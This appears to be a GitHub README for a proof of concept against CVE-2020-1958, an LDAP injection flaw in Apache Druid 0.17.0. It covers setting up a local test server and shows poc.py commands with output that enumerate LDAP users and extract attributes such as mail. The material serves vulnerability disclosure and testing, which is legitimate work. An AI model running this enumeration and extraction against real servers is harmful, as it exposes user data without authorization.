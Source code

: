 # CVE-2020-1958 PoC

CVE-2020-1958 is high severity LDAP injection vulnerability in [Apache Druid](https://druid.apache.org/) 0.17.0. It allows an attacker to bypass LDAP search filter and to retrieve any LDAP attribute values of users that exist on the LDAP server.

From official Apache Druid [advisory](https://seclists.org/oss-sec/2020/q2/5):

> When LDAP authentication is enabled:
> - Callers of Druid APIs with a valid set of LDAP credentials can bypass the `credentialsValidator.userSearch` filter barrier that determines if a valid LDAP user is allowed to authenticate with Druid. They are still subject to role-based authorization checks, if configured.
> - Callers of Druid APIs can retrieve any LDAP attribute values of users that exist on the LDAP server, so long as that information is visible to the Druid server. This information disclosure does not require the caller itself to be a valid LDAP user.

## PoC

The [poc.py](poc.py) script demonstrates how an unauthorized attacker can enumerate users on LDAP server integrated with Druid and fetch the value of any attribute of any user.

### Local Druid test server

Skip this step if you already have a Druid server with enabled LDAP authentication.

1. Download Druid 0.17.0 and extract it

   ```shell
   $ wget https://archive.apache.org/dist/druid/0.17.0/apache-druid-0.17.0-bin.tar.gz
   $ tar -zxf apache-druid-0.17.0-bin.tar.gz
  
2. Enable and configure LDAP authentication in `conf/druid/single-server/nano-quickstart/_common/common.runtime.properties`

   * Enable `druid-basic-security` extension

     Locate `druid.extensions.loadList` and add `druid-basic-security`:

     ```properties
     druid.extensions.loadList=["druid-hdfs-storage", "druid-kafka-indexing-service", "druid-datasketches", "druid-basic-security"]
     ```
  
   * Configure LDAP authentication

     Add the following at the end of the file:

     ```properties
     druid.auth.authenticatorChain=["ldap"]

     druid.auth.authenticator.ldap.type=basic
     druid.auth.authenticator.ldap.initialAdminPassword=password
     druid.auth.authenticator.ldap.initialInternalClientPassword=password
     druid.auth.authenticator.ldap.credentialsValidator.type=ldap
     druid.auth.authenticator.ldap.credentialsValidator.url=ldap://127.0.0.1:2389
     druid.auth.authenticator.ldap.credentialsValidator.bindUser=cn=admin,dc=example,dc=org
     druid.auth.authenticator.ldap.credentialsValidator.bindPassword=admin
     druid.auth.authenticator.ldap.credentialsValidator.baseDn=dc=example,dc=org
     druid.auth.authenticator.ldap.credentialsValidator.userSearch=(&(uid=%s)(memberof=cn=users,dc=example,dc=org))
     druid.auth.authenticator.ldap.credentialsValidator.userAttribute=uid
     druid.auth.authenticator.ldap.authorizerName=MyAuthorizer

     druid.escalator.type=basic
     druid.escalator.internalClientUsername=user1
     druid.escalator.internalClientPassword=user1
     druid.escalator.authorizerName=MyAuthorizer

     druid.auth.authorizers=["MyAuthorizer"]
     druid.auth.authorizer.MyAuthorizer.type=basic
     druid.auth.authorizer.MyAuthorizer.initialAdminUser=user1
     druid.auth.authorizer.MyAuthorizer.initialAdminRole=admin
     druid.auth.authorizer.MyAuthorizer.roleProvider.type=ldap
     ```

3. Run OpenLDAP server

   ```shell
   $ docker run -p 2389:389 --name my-openldap-container osixia/openldap:1.3.0
   ```

4. Import users from [users.ldif](users.ldif) to LDAP

   ```shell
   $ ldapadd -x -D "cn=admin,dc=example,dc=org" -w admin -H ldap://localhost:2389 -f users.ldif
   ```

5. Run Druid server

   ```shell
   $ bin/start-nano-quickstart
   ```

### Enumerate users

[![asciicast](https://asciinema.org/a/enOT26z1Slsee3xEjBw1OL0Aw.svg)](https://asciinema.org/a/enOT26z1Slsee3xEjBw1OL0Aw)

```shell
$ ./poc.py --url http://127.0.0.1:8888/
[INFO] Enumerating users from http://127.0.0.1:8888/
admin1
admin2
admin3
admin4
admin5
admin6
admin7
user1
user2
user3
user4
```

### Retrieve LDAP attributes' values of `admin1` user

[![asciicast](https://asciinema.org/a/eY8vBXftW00dQaYnJOsGO0ZOZ.svg)](https://asciinema.org/a/eY8vBXftW00dQaYnJOsGO0ZOZ)

```shell
$ ./poc.py --url http://127.0.0.1:8888/ --user admin1 --attr mail
[INFO] Exfiltrating mail attribute of admin1 user from http://127.0.0.1:8888/
admin1@example.com
$ ./poc.py --url http://127.0.0.1:8888/ --user admin1 --attr givenName
[INFO] Exfiltrating givenName attribute of admin1 user from http://127.0.0.1:8888/
admin1
$ ./poc.py --url http://127.0.0.1:8888/ --user admin1 --attr sn
[INFO] Exfiltrating sn attribute of admin1 user from http://127.0.0.1:8888/
last
```
